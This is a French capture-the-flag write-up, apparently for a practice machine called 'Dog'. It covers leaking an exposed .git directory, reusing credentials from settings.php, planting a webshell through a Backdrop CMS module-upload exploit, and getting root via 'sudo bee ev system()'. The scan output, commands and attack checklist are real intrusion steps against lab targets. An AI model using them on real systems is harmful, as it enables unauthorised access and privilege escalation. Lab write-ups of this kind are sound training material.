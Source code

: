 ```yaml
---
title: Dog
date: '2025-06-28'
tags: ['cms', 'sudo exploit', 'git directory leakage', 'RCE']
draft: false
summary: 'Ce défi exploite des failles dans un CMS exposé (Backdrop CMS) et une escalade de privilèges via un binaire mal configuré (sudo bee).'
---
```


# 🧠 Types de vulnérabilités exploitées

1. .git directory leakage : exposition publique du répertoire .git accessible via HTTP.
2. Informations sensibles exposées dans un fichier de configuration (settings.php).
3. RCE (Remote Code Execution) dans Backdrop CMS via upload de module malveillant.
4. Escalade de privilèges via un binaire sudo mal configuré.

# 🧭 Méthodologie étape par étape

## 🔍 1. Scan initial & reconnaissance

• Scan des ports → ports 22 (SSH) et 80 (HTTP) sont ouverts.
![nmap](/static/images/dog/nmap.png)

## 🗂 2. Recherche de chemins sensibles

◇ Fuzz avec dirsearch → **/ .git/ accessible**

```
$ dirsearch -u http://10.10.11.58 -x 404,500
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/nnbb/reports/http_10.10.11.58/_25-06-28_20-21-21.txt

Target: http://10.10.11.58/

[20:21:21] Starting:
[20:21:38] 301 -  309B  - /.git  ->  http://10.10.11.58/.git/
[20:21:38] 200 -  409B  - /.git/branches/
[20:21:38] 200 -   73B  - /.git/description
[20:21:38] 200 -   95B  - /.git/COMMIT_EDITMSG
[20:21:38] 200 -  604B  - /.git/
[20:21:38] 200 -   23B  - /.git/HEAD
[20:21:38] 200 -   92B  - /.git/config
[20:21:38] 200 -  455B  - /.git/info/
[20:21:38] 200 -  240B  - /.git/info/exclude
[20:21:39] 200 -  476B  - /.git/logs/
[20:21:39] 200 -  650B  - /.git/hooks/
[20:21:39] 301 -  319B  - /.git/logs/refs  ->  http://10.10.11.58/.git/logs/refs/
[20:21:39] 200 -  230B  - /.git/logs/HEAD
[20:21:39] 301 -  320B  - /.git/refs/heads  ->  http://10.10.11.58/.git/refs/heads/
[20:21:39] 301 -  319B  - /.git/refs/tags  ->  http://10.10.11.58/.git/refs/tags/
[20:21:39] 301 -  325B  - /.git/logs/refs/heads  ->  http://10.10.11.58/.git/logs/refs/heads/
[20:21:39] 200 -   41B  - /.git/refs/heads/master
[20:21:39] 200 -  230B  - /.git/logs/refs/heads/master
[20:21:39] 200 -  461B  - /.git/refs/
[20:21:43] 200 -  337KB - /.git/index
[20:21:43] 200 -    2KB - /.git/objects/
[20:21:44] 403 -  276B  - /.htaccess.bak1
[20:21:44] 403 -  276B  - /.ht_wsr.txt
[20:21:45] 403 -  276B  - /.htaccess.orig
[20:21:45] 403 -  276B  - /.htaccess.save
[20:21:45] 403 -  276B  - /.htaccess.sample
[20:21:45] 403 -  276B  - /.htaccess_extra
[20:21:45] 403 -  276B  - /.htaccessOLD
[20:21:45] 403 -  276B  - /.htaccess_orig
[20:21:45] 403 -  276B  - /.htaccessBAK
[20:21:45] 403 -  276B  - /.htaccess_sc
[20:21:45] 403 -  276B  - /.htaccessOLD2
[20:21:45] 403 -  276B  - /.htm
[20:21:45] 403 -  276B  - /.httr-oauth
[20:21:45] 403 -  276B  - /.htpasswd_test
[20:21:45] 403 -  276B  - /.html
[20:21:45] 403 -  276B  - /.htpasswds
[20:21:51] 403 -  276B  - /.php
[20:23:00] 301 -  309B  - /core  ->  http://10.10.11.58/core/
[20:23:16] 301 -  310B  - /files  ->  http://10.10.11.58/files/
[20:23:16] 200 -  586B  - /files/
[20:23:37] 200 -  456B  - /layouts/
[20:23:39] 200 -    7KB - /LICENSE.txt
[20:23:51] 301 -  312B  - /modules  ->  http://10.10.11.58/modules/
[20:23:52] 200 -  399B  - /modules/
[20:24:17] 200 -    5KB - /README.md
[20:24:20] 200 -  528B  - /robots.txt
[20:24:22] 403 -  276B  - /server-status
[20:24:22] 403 -  276B  - /server-status/
[20:24:23] 200 -    0B  - /settings.php
[20:24:29] 301 -  310B  - /sites  ->  http://10.10.11.58/sites/
[20:24:40] 301 -  311B  - /themes  ->  http://10.10.11.58/themes/
[20:24:40] 200 -  454B  - /themes/
```

## 🧑‍💻 3. Exfiltration du dépôt Git

◇ Utilisation de GitHack pour extraire le contenu

```
python3 ../GitHack/GitHack.py http://10.10.11.58/.git/
```

cd 10.10.11.58/

◇ Explore settings.php pour trouver les identifiants de la base de données (et potentiellement un mot de passe réutilisé).

## 🔐 4. Tentative de connexion CMS

◇ Tente de se connecter avec support@dog.htb, sans succès.

◇ Recherche dans le code exfiltré un autre mail (tiffany@dog.htb) → connexion réussie avec BackDropJ20....

## 💥 5. Exploitation RCE

◇ Télécharge un exploit Backdrop CMS (Exploit-DB #52021).

◇ Le script Python (python3 exploit.py http://10.10.11.58) génère un fichier shell.zip, non accepté par Backdrop.

◇ Solution : recréer un .tar propre à partir du dossier généré.

```
tar -cf shell.tar shell/
```

◇ Upload sur /admin/modules/install.

◇ Accès à ta webshell via :

```
http://10.10.11.58/modules/shell/shell.php?cmd=whoami
```

## 🔑 6. Accès utilisateur via SSH

◇ Dans settings.php, identifiants MySQL sont utilisés aussi par un utilisateur système.

◇ Teste l’accès SSH avec johncusack:BackDropJ2024DS2024.

```
ssh johncusack@10.10.11.5
```

◇ ✅ Récupération de user.txt.

## 🚀 7. Escalade de privilèges

◇ Vérifie les droits sudo :

```
sudo -l
```

◇ Résultat : peut exécuter /usr/local/bin/bee en tant que root.

◇ bee permet d’exécuter du code PHP → donc exécuter des commandes système.

```
sudo /usr/local/bin/bee ev "system('id')"
sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
```

◇ ✅ Récupération du flag root.txt

# ✅ Checklist réutilisable pour d'autres labs similaires

1. 🔎 Scanner les ports et identifier technologies web

2. 🗂 Fuzzer à la recherche de .git, .env, admin/, etc.

3. 📦 Extraire les dépôts .git avec GitHack ou GitTools

4. 🔐 Trouver des identifiants ou mots de passe dans les fichiers de config

5. 👤 Tenter une connexion CMS ou SSH avec ces infos

6. 🧠 Identifier la version du CMS et rechercher un exploit adapté

7. 📤 Envoyer un payload (webshell, reverse shell) via un module ou formulaire vulnérable

8. 🧑‍💻 Escalader les privilèges via sudo, SUID ou cron jobs mal configurés
